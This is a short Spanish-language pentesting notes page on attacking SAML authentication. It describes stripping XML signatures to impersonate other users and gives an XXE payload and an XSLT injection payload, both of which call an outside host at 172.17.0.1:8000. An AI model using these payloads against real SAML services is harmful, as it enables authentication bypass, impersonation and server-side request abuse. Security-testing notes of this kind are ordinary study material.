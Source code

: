 ## Atomático

SAML Raider en burp suite

---

## Manual
### Signature exclusion attack

Si un servidor está muy mal configurado, podríamos intentar borrar todas las signatures dentro del XML.

Estas signatures se encuentran en las tags **"ds:Signature"**.

Puede haber muchas signatures en un mismo xml.

Una vez eliminadas estas firmas podemos empezar a cambiar nuestros datos para imperonar a otros usuarios.

### XXE

Al ser un XML y trabajar con tags, podemos inyectar XXE. Ej:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://172.17.0.1:8000"> %xxe; ]>
    <samlp:Response>
    	[...]
    </samlp:Response>

Más info en el módulo de XXE:

        https://github.com/LaPorota/LaPorota_suite/blob/main/web/XXE.md

### XSLT Server-side Injection

Esta vulnerabilidad corresponde al parser de los XML y se da cuando los datos recibidos no son correctamente verificados.

De existir, esta vulnerabilidad puede darse incluso con SAML responses inválidas.
#####  Ejemplo
        <?xml version="1.0" encoding="utf-8"?>
        <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
        <xsl:template match="/">
        <xsl:copy-of select="document('http://172.17.0.1:8000/')"/>
        </xsl:template>
        </xsl:stylesheet>
